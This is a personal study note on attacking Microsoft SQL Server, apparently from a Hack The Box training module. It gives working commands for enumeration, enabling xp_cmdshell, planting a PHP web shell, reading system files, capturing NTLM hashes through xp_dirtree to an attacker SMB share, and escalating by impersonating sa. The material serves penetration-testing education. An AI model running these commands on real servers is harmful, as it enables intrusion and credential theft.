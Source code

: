 MSSQL
#########

Date: 2024-11-11 11:17

Status:


MSSQL Clients
*******************

SSMS (SQL Server Management Studio)
=====================================

-  commonly installed my Windows admins.
-  Is a client, so it can be installed anywhere

mssqlclient
===============

-  Part of the impacket tools

Configuration
---------------

-  By default will run as the NT SERVICE:raw-latex:`\MSSQLSERVER`
-  Encryption is not enabled by default
-  Authentication can be set to windows level authentication

MSSQL Footprinting
*******************

-  Default port is ``1433``

Example 1: Using nmap and mssql scripts

.. code-block:: console


   sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248

Example 2:
:ref:`Using the Metasploit Framework <Using the Metasploit Framework>`
auxiliary scanner called mssql_ping

.. code-block:: console


   search mssql_ping
   use auxiliary/scanner/mssql/mssql_ping
   set RHOST = 10.129.x.x
   run

Connecting with Mssqlclient.py
********************************

Example 1:

.. code-block:: console


   python3 mssqlclient.py Administrator:password@10.129.201.248 -windows-auth

**note:** When I tried without the password and let the client prompt
for it, it threw a .py error

XP_CMDSHELL
*************

XP_SHELL is a powerful set of stored procedures. Disabled by default,
but can be enabled with:

.. code-block:: console

   USE master; 
   GO 
   EXECUTE sp_configure 'show advanced options', 1; 
   GO 
   RECONFIGURE; 
   GO 
   EXECUTE sp_configure 'xp_cmdshell', 1; 
   GO
   RECONFIGURE;
   GO 
   EXECUTE sp_configure 'show advanced options', 0;
   GO 
   RECONFIGURE; 
   GO

MSSQL Writing files
**********************

To allow this you need to enable Ole Automation Procedures (requires
admin privs)

.. code-block:: console

   1> sp_configure 'show advanced options', 1
   2> GO
   3> RECONFIGURE
   4> GO
   5> sp_configure 'Ole Automation Procedures', 1
   6> GO
   7> RECONFIGURE
   8> GO

Then to create a file:

.. code-block:: console

   DECLARE @OLE INT
   2> DECLARE @FileID INT
   3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
   4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
   5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
   6> EXECUTE sp_OADestroy @FileID
   7> EXECUTE sp_OADestroy @OLE
   8> GO

MSSQL Reading files
**********************

Enabled by default

.. code-block:: console

   SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
   2> GO

XP_DIRTREE hash stealing
**************************

Example:

.. code-block:: console

   1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
   2> GO

OR

.. code-block:: console

   1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
   2> GO

And have :ref:`responder <responder>` running to catch the hash

.. code-block:: console

   Temen@htb[/htb]$ sudo responder -I tun0

OR

Catch it with :ref:`impacket` smbserver

.. code-block:: console

   sudo impacket smb share ./ -smb2support

MSSQL Impersonating users to escalate privs
*********************************************

Example 1: First check your current user/role

.. code-block:: console


   1> SELECT SYSTEM_USER
   2> SELECT IS_SRVROLEMEMBER('sysadmin')
   3> go

If the command comes back 0, this means you do not have the ``sysadmin``
role.

Escalate privileges with

.. code-block:: console

   1> EXECUTE AS LOGIN = 'sa'
   2> SELECT SYSTEM_USER
   3> SELECT IS_SRVROLEMEMBER('sysadmin')
   4> GO

A ``1`` should be returned indicating you now have the role.

Example: Outputting a file from an administrators desktop

.. code-block:: console

   SELECT srvname, isremote FROM sysservers;
   go
   EXECUTE('SELECT @@servername, @@version, SYSTEM_USER, IS_SRVROLEMEMBER(''sysadmin'')') AT [local.test.linked.srv];
   go
   execute ('select * from OPENROWSET(BULK ''C:/Users/Administrator/desktop/flag.txt'', SINGLE_CLOB) AS Contents') at [local.test.linked.srv];
   go

References
***********
https://academy.hackthebox.com/module/112/section/1246
